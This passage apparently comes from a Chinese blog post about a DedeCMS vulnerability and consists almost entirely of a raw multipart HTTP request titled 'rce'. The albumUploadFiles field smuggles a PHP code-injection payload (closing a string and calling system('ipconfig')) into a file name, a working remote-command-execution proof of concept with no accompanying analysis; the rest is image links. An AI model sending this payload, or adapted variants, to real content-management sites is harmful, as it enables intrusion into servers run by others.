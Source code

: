 ```

粘贴到这里...
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="dopost"

save
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="maxwidth"

800
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="albumUploadFiles"

[{"name":"');system('ipconfig');//","remark":"something"}]
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="title"

rce
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="shorttitle"


------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="redirecturl"


------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="tags"


------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="weight"

108
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="picname"


------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="litpic"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="typeid"

13
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="typeid2"


------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="dede_addonfields"


------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="pagestyle"

2
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="row"

3
```

  [1]: https://blog-1258330723.cos.ap-beijing.myqcloud.com/usr/uploads/2023/09/3138598933.png?sign=q-sign-algorithm%3Dsha1%26q-ak%3DAKIDFN6lDSWQ7as1xgFbt3zjGbhhT1KODoB8%26q-sign-time%3D1694180279%3B1694183939%26q-key-time%3D1694180279%3B1694183939%26q-header-list%3Dhost%26q-url-param-list%3D%26q-signature%3D5c6b30538308c376589bb9dffc5a5eb4f0e2d22e&
  [2]: https://blog-1258330723.cos.ap-beijing.myqcloud.com/usr/uploads/2023/09/1026476081.png?sign=q-sign-algorithm%3Dsha1%26q-ak%3DAKIDFN6lDSWQ7as1xgFbt3zjGbhhT1KODoB8%26q-sign-time%3D1694180358%3B1694184018%26q-key-time%3D1694180358%3B1694184018%26q-header-list%3Dhost%26q-url-param-list%3D%26q-signature%3D792ec2a5f9a6e52a11cff56b9758a456ff52f7ef&
  [3]: https://blog-1258330723.cos.ap-beijing.myqcloud.com/usr/uploads/2023/09/4046933789.png?sign=q-sign-algorithm%3Dsha1%26q-ak%3DAKIDFN6lDSWQ7as1xgFbt3zjGbhhT1KODoB8%26q-sign-time%3D1694180556%3B1694184216%26q-key-time%3D1694180556%3B1694184216%26q-header-list%3Dhost%26q-url-param-list%3D%26q-signature%3Dceb8efa2951a2b2820c95ca470cbef4105459f02&
  [4]: https://blog-1258330723.cos.ap-beijing.myqcloud.com/usr/uploads/2023/09/4000045358.png?sign=q-sign-algorithm%3Dsha1%26q-ak%3DAKIDFN6lDSWQ7as1xgFbt3zjGbhhT1KODoB8%26q-sign-time%3D1694180807%3B1694184467%26q-key-time%3D1694180807%3B1694184467%26q-header-list%3Dhost%26q-url-param-list%3D%26q-signature%3Df836f7ba5ea4814caf259b34e84a7fffdbe38d07&